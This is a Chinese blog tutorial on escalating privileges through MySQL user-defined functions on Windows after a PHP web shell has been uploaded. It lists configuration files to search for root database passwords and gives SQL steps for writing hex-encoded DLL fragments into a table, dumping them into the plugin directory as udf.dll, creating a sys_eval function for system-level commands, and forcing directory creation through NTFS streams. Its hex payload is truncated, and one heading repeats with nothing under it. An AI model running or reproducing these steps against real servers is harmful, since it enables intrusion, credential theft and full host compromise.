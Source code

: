 # 原创
：  【MySQL提权】UDF提权（附带大马）

# 【MySQL提权】UDF提权（附带大马）

**目录**

[ 附带：](#%C2%A0%E9%99%84%E5%B8%A6%EF%BC%9A)

[一、基础知识：](#%E4%B8%80%E3%80%81%E5%9F%BA%E7%A1%80%E7%9F%A5%E8%AF%86%EF%BC%9A)

[DLL：](#DLL%EF%BC%9A)

[UDF](#UDF)

[思路：](#%E6%80%9D%E8%B7%AF%EF%BC%9A)

[前提：](#%E5%89%8D%E6%8F%90%EF%BC%9A)

[二、利用过程：](#%E4%BA%8C%E3%80%81%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B%EF%BC%9A)

[第一步：上传大马，查看版本，读取配置文件root账户密码](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E4%B8%8A%E4%BC%A0%E5%A4%A7%E9%A9%AC%EF%BC%8C%E6%9F%A5%E7%9C%8B%E7%89%88%E6%9C%AC%EF%BC%8C%E8%AF%BB%E5%8F%96%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6root%E8%B4%A6%E6%88%B7%E5%AF%86%E7%A0%81)

[第二步：查secure_file_priv值，并更改（my.ini目录下）](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E6%9F%A5secure_file_priv%E5%80%BC%EF%BC%8C%E5%B9%B6%E6%9B%B4%E6%94%B9%EF%BC%88my.ini%E7%9B%AE%E5%BD%95%E4%B8%8B%EF%BC%89)

[第三步：查看系统框架以及plugin目录](#%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9F%A5%E7%9C%8B%E7%B3%BB%E7%BB%9F%E6%A1%86%E6%9E%B6%E4%BB%A5%E5%8F%8Aplugin%E7%9B%AE%E5%BD%95)

[第四步：使用大马导出dll文件提权](#%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E4%BD%BF%E7%94%A8%E5%A4%A7%E9%A9%AC%E5%AF%BC%E5%87%BAdll%E6%96%87%E4%BB%B6%E6%8F%90%E6%9D%83)

[第五步：手动写入dll文件](#%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E6%89%8B%E5%8A%A8%E5%86%99%E5%85%A5dll%E6%96%87%E4%BB%B6)

[方法一：](#%E6%96%B9%E6%B3%95%E4%B8%80%EF%BC%9A)

[方法二：](#%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%9A)

[第六步：（直接）大马写入DLL文件](#%E7%AC%AC%E5%85%AD%E6%AD%A5%EF%BC%9A%EF%BC%88%E7%9B%B4%E6%8E%A5%EF%BC%89%E5%A4%A7%E9%A9%AC%E5%86%99%E5%85%A5DLL%E6%96%87%E4%BB%B6)

---


> 
<h2> 附带：</h2>
[【PHP大马】定义、下载、使用、源码<img alt="icon-default.png?t=M666" src="https://csdnimg.cn/release/blog_editor_html/release2.1.7/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M666"/>https://blog.csdn.net/qq_53079406/article/details/125084768?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165875214216781818749550%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165875214216781818749550&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125084768-null-null.185^v2^control&amp;utm_term=%E5%A4%A7%E9%A9%AC&amp;spm=1018.2226.3001.4450](https://blog.csdn.net/qq_53079406/article/details/125084768?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165875214216781818749550%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&amp;request_id=165875214216781818749550&amp;biz_id=0&amp;utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-125084768-null-null.185%5Ev2%5Econtrol&amp;utm_term=%E5%A4%A7%E9%A9%AC&amp;spm=1018.2226.3001.4450)


## 一、基础知识：

> 
<h3>DLL：</h3>
在windows下存在一个叫做动态链接库的东西，俗称DLL。该文件会把程序代码中使用的函数编译成机器码，保存在DLL文件中；
编译时，EXE执行文件索要调用的函数在哪个DLL文件中，执行时会自动从DLL文件中调用指定的函数
<hr/>
<h3>UDF</h3>
user defined function（用户自定义函数）
udf在mysql5.1以后的版本中，存在于’mysql/lib/plugin’目录下，文件后缀为'.dll'


### UDF

> 
<h3>思路：</h3>
通过添加新函数，对MYSQL的功能进行扩充
1、将含有cmd函数的DLL文件写入指定文件夹下
2、基于DLL文件创建自定义函数
3、基于自定义函数调用相应的函数，传入参数，执行系统命令(该命令执行权限为system)


> 
<h3>前提：</h3>
1、MYSQL版本大于5.1：DLL文件必须放置在MYSQL安装目录下的lib\plugin目录下
2、MYSQL版本小于5.1大于5.0：在Windows2003下DLL文件放置于C:\windows\system32；在windows2000下DLL文件放置于C:\winnt\system32
3、MYSQL版本小于5.0：DLL文件可任意放置 MYSQL数据库用户具有创建和删除函数的权限 DLL文件有写入指定目录的权限
<hr/>
在MySQL高版本中secure-file-priv参数限制了MySQL的导出<br/> 1、NULL，表示禁止<br/> 2、value值有文件夹目录，则表示只允许该目录下文件（子目录都不行）<br/> 2、如果为空(没有值)，则表示不限制目录<br/> MySQL5.0/5.6版本：my.ini中无此参数，值为空，不限制目录<br/> MySQL5.7版本：my.ini中存在参数，值为NULL，不允许导出


---


---


## 二、利用过程：

> 
<h3>第一步：上传大马，查看版本，读取配置文件root账户密码</h3>
查看网站源码里面数据库配置文
(conn.php,config.php,dbconfig.php,config.inc.php,common.inc.php,inc,conn,config.sql,common,data，sql,data,inc,config,conn,database,common,include）




 

---


> 
<h3>第二步：查secure_file_priv值，并更改（my.ini目录下）</h3>
show global variables like 'secure%';
或者直接在文件夹里面找
<table border="1" cellpadding="1" cellspacing="1"><tbody>|secure_file_priv 的值|表示
|NULL，|禁止导入|导出
|value值有文件夹目录|只允许该目录下文件（子目录都不行）导入|导出
|为空(没有值)|不限制目录导入|导出
</tbody></table>





> 
<h3>第三步：查看系统框架以及plugin目录</h3>
show variables like '%compile%';
#查看主机版本及架构


show variables like 'plugin%';
#查看 plugin 目录

select @@plugin_dir;
加载失败可先尝试删除原有的扩展名：delete from mysql.func where name='cmdshell';




 

 

> 
<h3>第四步：使用大马导出dll文件提权</h3>
导出udf，如果脚本没法导出udf文件，也可以手动将该文件复制到plugin文件夹下
（创建plugin目录、复制粘贴udf文件都需要一定的权限)




> 
<h3>第五步：手动写入dll文件</h3>
<h4>方法一：</h4>
MYSQL大于5.1情况下，可能默认不存在plugin目录（利用NTFS ADS流创建plugin目录）
<pre>`create table temp(data longblob);`</pre>


<hr/>
<pre><code>insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
</code></pre>

<hr/>
<pre><code>update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
</code></pre>


<hr/>
当MySQL大于5.1时，默认是没有 lib\plugin 目录的
而 into dumpfile在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write
<pre>`select data from temp into dumpfile "D:\\BaiduNetdiskDownload\\phpstudy\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";`</pre>

<hr/>
创建自定义函数sys_eval

<pre>`create function sys_eval returns string soname 'udf.dll';`</pre>
<hr/>
<h4>方法二：</h4>
1、查找MYSQL目录
select @@basedir;
2、创建lib目录
select 'It is dll' into dumpfile 'MYSQL目录\\lib::$INDEX_ALLOCATION';
3、创建plugin目录
select 'It is dll' into dumpfile 'MYSQL目录\\lib\\plugin::$INDEX_ALLOCATION';
<hr/>
我得出来的结果还是：Can't create/write


---


---


#### 方法二：

---


> 
<h3>第六步：（直接）大马写入DLL文件</h3>
前提：
先导出DLL,再执行命令.MYSQL用户必须为root权限,导出路径必须能加载DLL文件



